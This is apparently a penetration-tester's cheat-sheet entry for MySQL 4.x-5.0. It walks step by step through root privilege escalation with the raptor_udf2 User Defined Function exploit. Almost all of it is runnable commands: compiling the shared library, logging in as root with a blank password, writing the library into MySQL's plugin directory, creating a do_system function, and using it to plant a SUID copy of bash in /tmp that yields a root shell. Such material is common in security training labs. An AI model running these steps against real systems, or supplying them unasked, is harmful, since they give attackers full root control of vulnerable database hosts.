 # **MySQL** #

Common Port: 3306

## **4.x-5.0** ##

- ### **User Defined Functions Exploit** ###   
  - Conditions: 
    - mysql running with root priviledges
    - ability to upload and compile exploit file
			
  https://www.exploit-db.com/exploits/1518

  - The MySQL service is running as root and the "root" user for the service does not have a password assigned. We can use a popular exploit that takes advantage of User Defined Functions (UDFs) to run system commands as root via the MySQL service.

  - Change into the /home/user/tools/mysql-udf directory:

    ``` bash
    cd /home/user/tools/mysql-udf
    ```

  - Compile the raptor_udf2.c exploit code using the following commands:

    ```
    gcc -g -c raptor_udf2.c -fPIC
    gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
    ```
  
  - Connect to the MySQL service as the root user with a blank password:

    ```
    mysql -u root
    ```

  - Execute the following commands on the MySQL shell to create a User Defined Function (UDF) "do_system" using our   compiled exploit:

    ```
    use mysql;
    create table foo(line blob);
    insert into foo values(load_file('/home/user/tools/mysql-udf/raptor_udf2.so'));
    select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';
    create function do_system returns integer soname 'raptor_udf2.so';
    ```
  
  - Use the function to copy /bin/bash to /tmp/rootbash and set the SUID permission:

    ```
    select do_system('cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash');
    ```
  
  - Exit out of the MySQL shell (type exit or \q and press Enter) and run the /tmp/rootbash executable with -p to      gain a shell running with root privileges:

    ```
    /tmp/rootbash -p
    ```
  
  - Remember to remove the /tmp/rootbash executable and exit out of the root shell when you are finished.
  
    ```
    rm /tmp/rootbash
    exit
    ```